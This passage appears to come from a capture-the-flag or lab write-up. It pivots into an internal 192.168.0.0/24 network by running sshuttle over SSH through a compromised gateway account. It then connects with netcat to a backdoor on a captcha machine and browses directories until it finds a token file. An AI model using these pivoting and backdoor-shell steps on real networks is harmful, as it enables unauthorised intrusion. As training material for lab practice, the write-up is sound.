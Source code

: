 What we need to do is to find a way of establishing a VPN connection to the internal network that will allow our localhost to communicate via that VPN - giving us unrestricted access to the internal network.

After a quick Google search I stumbled across [SSHuttle](https://github.com/apenwarr/sshuttle) which is a VPN that can be forwarded over SSH - just what we need!

Download and install SSHhuttle. Once you have done so, let's run the following command to establish a VPN Connection to the 192.168.0.0/24 internal network via our SSH access to the compromised gw machine on 192.168.101.9.

```console
root@kali:~# sshuttle -r e.lindsey@192.168.101.9 192.168.0.0/24
e.lindsey@192.168.101.9's password: 
client: Connected.
```

## Finding the Captcha Token:

Awesome - now that we have access to the internal network via our VPN, let's attempt our netcat connection again.

```console
root@kali:~# nc -v 192.168.0.7 1234
192.168.0.7: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.7] 1234 (?) open
```

And just like that we have backdoor access to the Captcha Machine!

From here we can traverse the directories and see if there isn't anything interesting!

```console
ls
($_SESSION).php
captcha
captcha.bak
cd ..
ls
532d3b0588c1b683a1f251e5d8b223630a2b928eb44fae7e4ca19c460f4694d8033d40f58e1c6e898ee1adc6496f5640eca4181625929e1958135d3e7d938dddb4894cee50a2fc85284a9d80f333d3252172ead6ce163df3490197d23e576cfa830ae4
cd ..
ls
index.php
readme.txt
robots.txt
sources
cd ..
ls
token.token
www
```

After traversing a few directories, we spot the Captcha Token!

```console
cat token.token
********
```
